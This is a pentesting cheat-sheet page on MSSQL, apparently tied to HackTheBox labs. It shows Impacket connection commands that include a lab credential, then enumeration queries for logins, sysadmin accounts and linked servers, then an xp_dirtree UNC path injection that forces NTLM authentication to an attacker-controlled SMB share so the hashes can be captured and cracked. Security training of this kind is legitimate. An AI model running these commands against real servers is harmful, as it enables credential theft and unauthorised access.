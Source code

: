 # MSSQL

## Connection

We can use Impacket to connect to a MSSQL server:

{% tabs %}
{% tab title="Windows Authentication" %}
```bash
$ mssqlclient.py sql_dev@10.129.43.30 -windows-auth
```
{% endtab %}

{% tab title="SQL Server Authentication" %}
```
impacket-mssqlclient PublicUser:GuestUserCantWrite1@escape
```
{% endtab %}
{% endtabs %}

## Enumeration

### Who Are We

```sql
# Get the SQL login
# The variable SYSTEM_USER contains the name of the SQL login for the current session
SQL> SELECT SYSTEM_USER;

# Database user we mapped to
SQL> SELECT USER_NAME();

# If we are memeber of role
SQL> SELECT IS_SRVROLEMEMBER('public');

# Windows user
SQL> SELECT suser_name();
```

### What Can We Do

```sql
SQL> SELECT entity_name, permission_name FROM fn_my_permissions(NULL, 'SERVER');
```

### Accounts

```sql
# List users
SQL> SELECT name FROM master..syslogins;

# Admin user
SQL> SELECT name FROM master..syslogins WHERE sysadmin = '1';
```

### System Information

```sql
SQL> select @@version;

# Current database
SQL> SELECT DB_NAME();

# List databases
SQL> SELECT name FROM master..sysdatabases;

# Query server name
SQL> SELECT @@servername;

# Enumerate SQL Server links
SQL> SELECT srvname FROM sysservers; 
```

## Attacks

### UNC Path Injection

We can force the MSSQL server to authenticate with a SMB share we control to capture the NTLM authentication messages and crack it later.

```sql
SQL> EXEC master..xp_dirtree "\\<IP>\<SHARE>"
```

Related HackTheBox machines include:

* [Escape](../../hackthebox/windows/escape.md#unc-path-injection)
